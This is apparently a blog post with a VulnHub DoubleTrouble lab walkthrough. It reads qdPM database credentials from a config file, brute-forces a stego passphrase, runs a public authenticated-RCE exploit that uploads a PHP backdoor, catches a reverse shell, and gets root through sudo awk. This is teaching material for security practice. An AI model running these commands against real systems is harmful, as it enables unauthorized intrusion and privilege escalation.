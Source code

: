 ```yaml
---
layout: post
title: VulnHub DoubleTrouble Writeup
categories: VulnHub Machines
permalink: /vulnhub/double-trouble
---
```


Machine: [https://www.vulnhub.com/entry/doubletrouble-1,743/](https://www.vulnhub.com/entry/doubletrouble-1,743/)
Machine Author: [tasiyanci](https://www.vulnhub.com/author/tasiyanci,765/)

## Nmap

```bash
# Nmap 7.94SVN scan initiated Fri Jan 10 20:51:36 2025 as: /usr/lib/nmap/nmap -Pn -p- -A --min-rate 5000 -oN scan.txt 192.168.56.140
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.140
Host is up (0.00084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA)
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA)
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:B8:E1:CB (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.84 ms 192.168.56.140

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 10 20:51:48 2025 -- 1 IP address (1 host up) scanned in 12.85 seconds
```

As we can see there is not much running on the server except ssh and an http server.

Let’s go ahead an visit the http server and see what we have.

![1](https://github.com/user-attachments/assets/fcd035fd-f5a2-4a5c-84c9-8cfe8ce3066f)


We can see a qdPM login screen.

Based on past experience I know that qdPM has a vulnerability where we can get access to the database credentials by accessing the /core/config/databases.yml of the website. So let’s go ahead and do that.

```bash
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: otis
      password: "<?php echo urlencode('rush') ; ?>"
      attributes:
        quote_identifier: true  
  
```

There we go we now have a username (otis) and a password (rush). Let’s try to login to ssh using those credentials.

```bash
ssh otis@192.168.56.140
otis@192.168.56.140's password: 
Permission denied, please try again.
```

Well that doesn’t seem to work. Let’s try something else. 

We can try and perform directory busting to see what we can find.

```bash
feroxbuster -u http://192.168.56.140/ -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -n -t 100 -x txt,zip,php
                                                                                                                                                                                                                                           
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.140/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, zip, php]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
<SNIP>
301      GET        9l       28w      317c http://192.168.56.140/images => http://192.168.56.140/images/
301      GET        9l       28w      317c http://192.168.56.140/secret => http://192.168.56.140/secret/
301      GET        9l       28w      318c http://192.168.56.140/backups => http://192.168.56.140/backups/
301      GET        9l       28w      316c http://192.168.56.140/batch => http://192.168.56.140/batch/
```

We are able to find an endpoint of /secret. After visiting that endpoint we are able to find a doubletrouble.jpg file

![2](https://github.com/user-attachments/assets/d4a1d75b-5d04-4532-a515-fa44ddde8d27)


Since it’s a .jpg file we can try to see if it has hidden text by trying to extract it using steghide and the password from earlier.

```bash
teghide extract -sf doubletrouble.jpg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

That didn’t seem to work. We can try and bruteforce the password using stegseek to see if that works.

```bash
stegseek doubletrouble.jpg -wl /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "92camaro"

[i] Original filename: "creds.txt".
[i] Extracting to "doubletrouble.jpg.out".
```

We were able to bruteforce the password successfully. Let’s see what the file contains.

```bash
cat doubletrouble.jpg.out 
otisrush@localhost.com
otis666
```

It seems to be an email/password combination. Looking back at the qdPM login we can see that it takes and email and a password. We can try to login there using these credentials.

![3](https://github.com/user-attachments/assets/678f72fb-b78c-427b-afbe-90a4ce1c6f0d)


We were successfully able to login to qdPM. Now let’s perform some enumeration.

```bash
searchsploit qdpm      
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
qdPM 7 - Arbitrary File upload                                                                                                                                                                           | php/webapps/19154.py
qdPM 7.0 - Arbitrary '.PHP' File Upload (Metasploit)                                                                                                                                                     | php/webapps/21835.rb
qdPM 9.1 - 'cfg[app_app_name]' Persistent Cross-Site Scripting                                                                                                                                           | php/webapps/48486.txt
qdPM 9.1 - 'filter_by' SQL Injection                                                                                                                                                                     | php/webapps/45767.txt
qdPM 9.1 - 'search[keywords]' Cross-Site Scripting                                                                                                                                                       | php/webapps/46399.txt
qdPM 9.1 - 'search_by_extrafields[]' SQL Injection                                                                                                                                                       | php/webapps/46387.txt
qdPM 9.1 - 'type' Cross-Site Scripting                                                                                                                                                                   | php/webapps/46398.txt
qdPM 9.1 - Arbitrary File Upload                                                                                                                                                                         | php/webapps/48460.txt
qdPM 9.1 - Remote Code Execution                                                                                                                                                                         | php/webapps/47954.py
qdPM 9.1 - Remote Code Execution (Authenticated)                                                                                                                                                         | php/webapps/50175.py
qdPM 9.1 - Remote Code Execution (RCE) (Authenticated) (v2)                                                                                                                                              | php/webapps/50944.py
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                                                                                                                                             | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                                                                                                                                           | php/webapps/50176.txt
qdPM < 9.1 - Remote Code Execution                                                                                                                                                                       | multiple/webapps/48146.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Using searchsploit we are able to find an Authenticated RCE for our version of qdPM. Let’s go ahead and use that script to get a shell.

```bash
python3 50944.py -url http://192.168.56.140/ -u otisrush@localhost.com -p otis666
You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2025-01-10 15:11 
Backdoor uploaded at - > http://192.168.56.140/uploads/users/871566-backdoor.php?cmd=whoami
```

It says that the backdoor was uploaded. Let’s go ahead and check it out.

![4](https://github.com/user-attachments/assets/e5d3e3a6-85c0-40ce-b382-e5cc43f00a3f)


We now have command execution. Let’s go ahead and get a reverse shell now.

```bash
nc -lvnp 443              
listening on [any] 443 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.140] 57010
bash: cannot set terminal process group (482): Inappropriate ioctl for device
bash: no job control in this shell
www-data@doubletrouble:/var/www/html/uploads/users$
```

There we go, we now have a shell. We can go ahead and upgrade this to a more interactive shell.

```bash
www-data@doubletrouble:/var/www/html/uploads/users$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<rs$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@doubletrouble:/var/www/html/uploads/users$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                                                                                                                                           
stty raw -echo; fg                                             
[1]  + continued  nc -lvnp 443

www-data@doubletrouble:/var/www/html/uploads/users$ 
```

We now have a more interactive shell to work with. So let’s go ahead an perform some enumeration.

```bash
www-data@doubletrouble:/tmp$ sudo -l
Matching Defaults entries for www-data on doubletrouble:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on doubletrouble:
    (ALL : ALL) NOPASSWD: /usr/bin/awk
```

We are able to find that we can run /usr/bin/awk using sudo. We can abuse this to get root on the system.

```bash
www-data@doubletrouble:/tmp$ sudo /usr/bin/awk 'BEGIN {system("/bin/bash")}'
root@doubletrouble:/tmp# cd /root
root@doubletrouble:~# whoami
root
```

And we were able to get root finally.
